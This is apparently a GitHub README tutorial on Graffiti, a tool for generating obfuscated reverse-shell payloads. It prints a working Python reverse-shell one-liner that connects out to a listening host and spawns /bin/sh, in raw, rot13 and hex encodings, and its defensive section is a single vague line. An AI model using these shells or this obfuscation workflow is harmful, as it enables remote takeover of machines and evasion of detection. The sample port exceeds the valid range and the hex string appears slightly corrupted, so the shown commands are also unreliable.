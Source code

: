 # Study of one of the hacking SUBJECT 
<p align="center">
  <img src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png">
</p>

# What is GRAFFITI?
Graffiti is a tool that uses a number of different encoding techniques to create obfuscated payloads.

### It offers an array of one-liners and shells in languages such as:

 - Python
 - Perl
 - PHP
 - Powershell
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

### Payloads can be encoded using the following techniques:

 - Base64
 - Hex
 - AES256
 - ...



### Features

 - Option to run native OS commands
 - Multiple encoding techniques 
 - Terminal history
 - Ability to run external commands
 - Ability to securely wipe the history files
 - Ability to create your own payload files
 
# What is the mechanism how to do it?
First, we need to clone into the Github for [Graffiti](https://github.com/Ekultek/Graffiti) by using `git` command

![e1800918](pic/1.PNG)

Then get into that directory and list everything to compare what is missing or not by using `ls` command

![e1800918](pic/2.PNG)

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, type `graffiti -h`:

![e1800918](pic/3.PNG)

# Now, let's the running begins

The easy way to run Graffiti is in normal command-line mode. All we have to do is pass the arguments after the command, just like you would with any other tool or script. For example, we can list all available payloads with the `-l` command

![e1800918](pic/4.PNG)

We can see that there are options segregated between Windows and Linux for [Netcat shells](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/), [Python shells](https://wiki.python.org/moin/PythonShells) and several others.

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. To see the available encoders for the payloads, type `-Vc`

![e1800918](pic/5.PNG)

The `-p` command is the staff of life of Graffiti — use it to specify a payload, followed by `-c` to specify the encoding technique, and finally `-lH` and `-lP` to set the listening address and port, respectively. Here's a raw-format Python reverse shell which means no encoding:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c raw -lH 18.0.9.18 -lP 1800918
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.0.9.18",1800918));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

That will spit out the command for the appropriate reverse shell with all the information filled in.

Let's seek a different example. but encoded in rot13:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c rot13 -lH 18.0.9.18 -lP 1800918
python -c 'exec("vzcbeg fbpxrg,fhocebprff,bf;f=fbpxrg.fbpxrg(fbpxrg.NS_VARG,fbpxrg.FBPX_FGERNZ);f.pbaarpg((\"18.0.9.18\",1800918));bf.qhc2(f.svyrab(),0); bf.qhc2(f.svyrab(),1); bf.qhc2(f.svyrab(),2);c=fhocebprff.pnyy([\"/ova/fu\",\"-v\"]);".decode("rot13"))'

```

Another one with hex:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c hex -lH 18.0.9.18 -lP 1800918
python -c 'exec("696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e65637428282231382e302e392e3138222c3138303039313829293b6f732e6475703228732e66696c656e6f28292c30293b20f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b".decode("hex"))'

```

Graffiti keeps a cache of payloads like a history for easy access, don't need to run those commands above again. Use the `-vC` option to see them:

![e1800918](pic/6.PNG)

We can also clear the history with the `-W` command:

![e1800918](pic/7.PNG)

# The other way to run Graffiti is in its interactive mode, which comes with a built-in terminal environment. There are more commands and clearly informations.

First of all, just type in `graffiti`:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti

  ________              _____  _____.__  __  .__
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/
 v(0.0.10)

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti#

```

Let's take a look at the help menu, type `help` or `?` :

![e1800918](pic/8.PNG)

We can check if we have the up-to-date version of the graffiti by `check` command:

![e1800918](pic/9.PNG)

We can get Linux kernel version and some other system information with the `uname -a` command in Linux.

![e1800918](pic/10.PNG)

The `list` command will show all the available payloads but not clearly allocated like the `-l` switch from the normal command-line mode:

![e1800918](pic/11.PNG)

We can create a payload with the `use` command, followed by the desired payload and the type of encoding to use:

![e1800918](pic/12.PNG)

As same as Graffiti's command-line mode, we can view a history of cached payloads by using the `cached` command. We can also display the command history with the `history` option:

Finally, to exit interactive mode, just type `exit`:

![e1800918](pic/13.PNG)

# How to protect from it or uncover it?

Just never upload payloads to online checkers.

# Summary

We learned in this tutorial how to use a tool called Graffiti in order to create obfuscated payloads for use in penetration testing and hacking. Second, we set up the platform and have it mounted easily on our system. Next, we explored the command-line mode and some of its options, including listing payloads, viewing history, and generating encoded payloads using a variety of techniques. Then we looked at the interactive mode and how it's easy to use to create payloads, all from an interactive prompt.



